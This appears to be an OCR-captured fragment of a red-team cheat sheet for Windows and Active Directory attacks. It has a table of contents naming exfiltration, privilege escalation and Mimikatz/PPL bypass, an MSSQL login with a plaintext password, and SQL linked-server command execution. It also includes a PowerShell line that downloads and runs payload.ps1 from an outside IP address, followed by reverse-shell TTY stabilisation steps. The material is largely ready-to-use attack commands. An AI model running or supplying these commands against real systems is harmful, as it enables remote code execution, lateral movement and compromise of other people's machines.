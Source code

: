         - [Constrained Delegation](#constrained-delegation)
        - [Resource Based Constrained Delegation](#resource-based-constrained-delegation)
- [Exfiltrate Data](#exfiltrate-data)
- [Privilege Escalation](#privilege-escalation)
     - [CMD](#cmd)
        - [UAC](#uac)
        - [SeatBelt](#seatbelt)
        - [AccessChk](#accesschk)
        - [Minidump](#minidump)
        - [Bypass PPL / Mimikatz / PPLKiller](#bypass-ppl--mimikatz--pplkiller)
        - [PowerUp](#powerup)



# MSSQL

```bash
mssqlclient.py will:fdsfssdfDFG4@172.16.X.151 -port 1433 -windows-auth
```

```powershell
Get-SQLServerLinkCrawl
```

```powershell
Invoke-OSCmd -Instance MA02 -Command ""
sharpsql.exe invoke-oscmd -Instance MA00 -Command 'powershell.exe /c c:\users\public\payload.ps1'
sharpsql.exe invoke-oscmd -Instance MA00 -Command 'powershell.exe /c iex(new-object net.webclient).downloadstring(''''http://172.21.23.27/payload.ps1'''')'
```

* * *

# TTY

```bash
ctrl + Z
stty raw -echo; fg
stty rows 200 stty cols 200
export TERM=xterm-256color

exec /bin/bash
or
python -c 'import pty;pty.spawn("/bin/bash")
```

* * *

# Powershell

##### Check 64bit Shell

```powershell
[Environment]::Is64BitOperatingSystem
```
